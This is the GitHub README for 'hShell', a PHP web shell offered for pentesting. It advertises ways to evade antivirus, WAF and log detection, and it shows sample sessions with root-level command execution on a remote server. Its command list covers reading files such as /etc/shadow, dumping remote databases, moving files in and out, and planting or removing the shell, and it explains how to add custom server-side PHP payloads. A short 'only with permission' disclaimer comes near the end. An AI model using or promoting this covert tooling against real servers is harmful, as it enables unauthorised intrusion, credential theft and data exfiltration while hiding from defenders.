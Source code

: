 # WHK hShell

Web-Shell for professional use as a pentester writed in <?php


## Advantage

- The core of the shell is on the client's side.
- It leaves no traces because the code is not stored on the server side.
- No server-side interventions are required to perform updates.
- Interpretable code sent from the client, this prevents the detection of the antivirus.
- Transport of obfuscated code for the prevention of WAF detection.
- The data transport uses HTTP / POST requests, prevents leaving traces in logs of WEB servers.
- Use random payload on the HTTP / POST body for prevention of WAF detection.
- Supports large amounts of code due to the sending of requests via multipart/form-data.


## How to use?

The php server script must be uploaded on the server to be controlled. Then you must run the client.php from the terminal and indicate the path of the server.php:

    whk@machine:~$ php client.php 
     -=[ Wellcome to H Shell 💀 v0.5 Alpha ]=-
    + Connect to url: https://whk.cl/server.php
    + Connecting ...
    + Connected!
    h-Shell:/home/whk.cl/public_html/> id
    uid=0(root) gid=0(root)
    hShell:/home/whk.cl/public_html/> exec ls -la
    total 1
    drwxrwxr-x.  5 whk.cl whk.cl  4096 Feb 10 17:33 .
    drwx------.  6 whk.cl whk.cl  4096 Oct  8 15:08 ..
    -rw-r--r--.  1 root   root    1388 Feb 10 21:38 server.php
    hShell:/home/whk.cl/public_html/> force-exec explicit ls -la
    total 1
    drwxrwxr-x.  5 whk.cl whk.cl  4096 Feb 10 17:33 .
    drwx------.  6 whk.cl whk.cl  4096 Oct  8 15:08 ..
    -rw-r--r--.  1 root   root    1388 Feb 10 21:38 server.php
    h-Shell:/home/whk.cl/public_html/> exit
    ! Bye.


## Commands available

    hShell:/> help
      Command             | Description
     ────────────────────────────────────────────────────────────── 
      connect [url]       : Connect to Server WebShell script.
      help                : Show help of the client.
      cat                 : Show the content of remote file.
      tail [file path]    : Read the last lines of specific file.
      cd [directory]      : Navigate to specific remote directory.
      shell [command]     : Execute a simple command in remote server using the           current remote path. Detect automatic available method on the server. See the call-exec command. Alias of exec and system commands.
      force-shell [method] [command] : Force execute a simple command in remote server using an specific php method in current path. Alias of force-exec and force-system commands. Available methods: system, exec, shell_exec, passthru, popen, proc_open, explicit (using double quotes `).
      edit [editor command] [file path] : Edit remote file with specific local command edtor, example: edit vi /etc/shadow
      nano [file path]    : Edit remote file with nano editor on the local system.
      vi [file path]      : Edit remote file with vi editor on the local system.
      vim [file path]     : Edit remote file with vim editor on the local system.
      gedit [file path]   : Edit remote file with gedit editor on the local system.
      notepad [file path] : Edit remote file with notepad editor on the local system.
      sublime [file path] : Edit remote file with sublime text editor on the local system.
      uninstall           : Uninstall the current WebShell on the server.
      install [file path] : Install the WebShell on the specific remote parh.
      mysql [host] [port] [user] [password] : Start an interative MySQL shell connection on the remote server.
      mysqldump [host] [port] [user] [password] [local file] : Make a dump from remote database to local file .sql
      download [remote path] [local path] : Download a backup of file or directory from server to local path.
      upload [local path] [remote path] : Upload a local file or directory to remote directory (maintains the same permits)
      rm [path]           : Delete the specific file or directory path.
      mkdir [path]        : Make a directory on the server.
      phpinfo             : Show the full info of the php, libraries and enviroments of the server.
      id                  : Show the full info of the current user and group on the server.
      ls                  : List files and folders of the current path on the server. Alias of ll and dir commands.
      shellpath           : Show the current local path of the WebShell server.
      pwd                 : Show the current local path on the server.
      uname               : Show the full info of the System Operative of the server.
      exit                : Exit of the client but not remove the WebShell on the server. See uninstall.  Alias of quit command.


## Execute own codes without modifying the server

You can create and execute your own codes made in PHP language by creating specific functions for it.

### Howto make a custom functions?

In the client.php make a specific conditional between:

    }
    else if(in_array($command, array('exit', 'quit')))
    {

For example:

    }
    else if(in_array($command, array('custom_command')))
    {
        $result = $this->sendBuffer('
            $result = "done!";
        ');
        
        if($echo)
        {
            echo $result."\n";
        }
        
        return $result;
    }
    else if(in_array($command, array('exit', 'quit')))
    {

Where `$result = "done!";` is your code that will run on the server. The `$result` is the variable for return the string of result to the client.

For large return messages use callbacks for prevent exhaust of memory on the client, example:

    }
    else if(in_array($command, array('custom_command')))
    {
        $result = $this->sendBuffer('
            for($i = 0; $i <= 50000; $i++)
            {
                echo 'FOO';
            }
        ', 'self::callbackCommandGenericFlush', true);
        echo "\n";
    }
    else if(in_array($command, array('exit', 'quit')))
    {

See the `', 'self::callbackCommandGenericFlush', true);` when `self::callbackCommandGenericFlush` is the callback for print each line in real time without keep the lines in a local variable. Note: the out of buffer is a raw `echo`, dont use `$return`.
For call your command only call this:

    hShell:/> custom_command

For arguments use `$argv`, is a array of arguments (separated by blank space). For join all arguments use `implde`, by example: `$argument = implode(' ', $argv)`.
For more help, show the source code or write a email to [me](whk@elhacker.net)


## Do not be bad
Use this script only under controlled environments where you have permission to execute it. There is no guarantee of its functionality or use, please proceed with discretion.


## How to contribute?

|METHOD                 |WHERE                                                                                        |
|-----------------------|---------------------------------------------------------------------------------------------|
|Donate                 |[Paypal](https://www.paypal.com/cgi-bin/webscr?cmd=_s-xclick&hosted_button_id=KM2KBE8F982KS) |
|Find bugs              |Using the [Issues tab](https://github.com/WHK102/hShell/issues)                              |
|Providing new ideas    |Using the [Issues tab](https://github.com/WHK102/hShell/issues)                              |
|Creating modifications |Using the [Pull request tab](https://github.com/WHK102/hShell/pulls)                         |
